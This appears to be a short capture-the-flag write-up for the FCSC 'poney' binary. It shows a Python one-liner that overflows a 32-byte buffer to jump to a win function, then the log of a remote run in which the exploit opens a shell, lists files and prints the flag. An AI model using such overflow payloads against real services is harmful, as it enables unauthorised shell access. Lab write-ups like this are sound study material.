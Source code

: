 Local: (python -c 'print "A"*32+"\x76\x06\x40\x00\x00\x00\x00\x00"';cat) | ./poney

Remote : 

```powershell
python poney.py
[*] '/home/elweth/Documents/FCSC/poney'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to challenges1.france-cybersecurity-challenge.fr on port 4000: Done
Give me the correct input, and I will give you a shell:
>>>
[*] payload : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAv\x06\x00\x00\x00[*] Switching to interactive mode
 $ ls
flag
poney
$ cat flag
FCSC{725dd45f9c98099bcca6e9922beda74d381af1145dfce3b933512a380a356acf}
```
